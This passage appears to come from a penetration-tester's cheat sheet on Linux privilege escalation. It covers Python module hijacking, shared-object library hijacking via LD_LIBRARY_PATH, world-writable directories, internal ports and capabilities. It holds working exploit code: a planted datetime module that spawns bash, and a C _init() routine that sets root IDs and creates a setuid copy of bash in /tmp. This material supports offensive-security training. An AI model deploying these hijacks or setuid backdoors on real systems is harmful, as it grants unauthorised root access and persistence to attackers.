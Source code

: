 ```bash
$ cat datetime/__init__.py # in case there is import datetime on the vulnerable script, if not change the created folder name
import os
os.system("bash")

#Consider also to use PYTHONPATH environment variable if possible.
```
{% endcode %}

## **Dynamically Linked Shared Object Library**

#### **LD\_LIBRARY\_PATH, crontab**

{% embed url="https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library" %}

```bash
# ALTERNATIVE if we compile .c file into .so:

[kali@kali]$ cat suid.c 
#gcc -shared -fPIC -nostartfiles file.c -o file.so
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {

        setgid(0);
        setuid(0);
        system("cp /bin/bash /tmp/rootbash");
        system("chmod 4755 /tmp/rootbash");
}
```

## World-writable directories

/dev/shm, /tmp, /var/tmp

## **Internal Ports**

```bash
netstat # only interesting if it says 127.0.0.1 or any other IP rather than 0.0.0.0
```

## **Capabilities**

[**https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#the-special-case-of-empty-capabilities**](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#the-special-case-of-empty-capabilities)

[**https://tbhaxor.com/exploiting-linux-capabilities-part-2/**](https://tbhaxor.com/exploiting-linux-capabilities-part-2/)
